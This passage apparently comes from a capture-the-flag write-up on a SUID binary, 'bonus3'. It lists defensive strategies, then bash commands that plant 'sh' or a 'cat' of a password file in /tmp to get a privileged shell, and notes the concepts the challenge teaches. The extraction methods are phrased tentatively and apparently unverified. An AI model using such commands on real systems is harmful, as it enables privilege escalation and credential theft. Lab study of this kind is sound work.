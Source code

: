 ### Defensive Strategies
- **Input Validation**: Whitelist allowed arguments and file content
- **Privilege Separation**: Drop SUID privileges before user input processing
- **Command Whitelisting**: Avoid execl() with arbitrary user input
- **File Access Control**: Restrict file operations to safe directories
- **Bounds Checking**: Validate all array indices before use

## Flag Extraction Process

Based on successful exploitation, the flag should be retrievable through:

```bash
# Method 1: Direct command execution
echo "cat /home/user/end/.pass" > /tmp/bonus3
# Find appropriate numeric argument that matches

# Method 2: Interactive shell  
echo "sh" > /tmp/bonus3
./bonus3 "0"  
# Then: cat /home/user/end/.pass

# Method 3: Empty string shell
echo "" > /tmp/bonus3
./bonus3 ""
# Provides shell access for flag reading
```

## Technical Innovation Assessment

This challenge demonstrates several advanced exploitation concepts:

1. **File-Argument Coordination**: Exploiting relationship between file content and command arguments
2. **String Manipulation Abuse**: Using atoi() and null termination for comparison bypass  
3. **Conditional Execution**: Leveraging strcmp() result for privilege escalation path
4. **SUID Command Injection**: Combining file operations with arbitrary command execution
5. **Multi-Vector Attack**: Requiring coordination of multiple input sources

The combination creates a realistic scenario highlighting the risks of:
- Unvalidated user input in privileged programs
- File operations combined with string manipulation  
- Direct command execution with user-controlled parameters
- SUID binaries with complex input processing logic